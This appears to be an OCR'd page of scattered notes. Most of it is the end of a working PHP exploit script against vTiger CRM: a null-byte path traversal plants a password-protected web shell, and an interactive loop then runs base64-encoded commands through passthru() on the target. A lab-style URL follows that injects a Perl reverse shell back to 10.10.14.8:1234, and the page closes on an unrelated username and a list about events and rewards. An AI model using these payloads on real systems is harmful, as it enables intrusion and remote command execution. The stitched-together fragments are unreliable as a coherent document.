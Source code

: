 ```php
curl_setopt($curl, CURLOPT_HEADER, true);
$exec=curl_exec($curl);
curl_close($curl);
return $exec;
}
function kastr($string, $start, $end){
        $string = " ".$string;
        $ini = strpos($string,$start);
        if ($ini == 0) return "";
        $ini += strlen($start);
        $len = strpos($string,$end,$ini) - $ini;
        return substr($string,$ini,$len);
}
$me=faget($target."/vtigercrm/phprint.php?action=fa&module=ff&lang_crm=../../cache/import/IMPORT_%00","");
echo "| Testing total payload\n";
$total=faget($target."/vtigercrm/farsawy.php","pwd=1337");
if(!eregi("Faris on the mic :D",$total))
{
die("[+] Exploitation Failed\n");
}
echo "| Sending CMD test package\n";
$cmd=faget($target."/vtigercrm/farsawy.php","pwd=1337&fa=cGFzc3RocnUoJ2VjaG8gZmFyc2F3eScpOw==");
if(!eregi("farsawy",$cmd))
{
echo "   + Cmd couldn't executed but we can evaluate php code\n   + use :
$target//vtigercrm/fa.php\n   Post : fa=base64code\n";
}
echo "| sec4ever shell online ;)\n\n";
$host=str_replace('https://','',$target);
while(1){
echo "i-Hmx@$host# ";
$c=trim(fgets(STDIN));
if($c=='exit'){die("[+] Terminating\n");}
$payload=base64_encode("passthru('$c');");
$fuck=faget($target."/vtigercrm/farsawy.php","pwd=1337&fa=$payload");
$done=kastr($fuck,"-----------------","-----------------");
echo "$done\n";
}
/*
I dont even remember when i exploited this shit!
maybe on 2013?!
whatever , Hope its not sold as 0day in the near future xDD
*/
?>

```


a user name ==> Fanis Papafanopoulos

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.8%3a1234%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A


* events (Put path option).
* Rewards (Free courses, bookshop(buy one get one free), free meal from a restaurant, cake shop)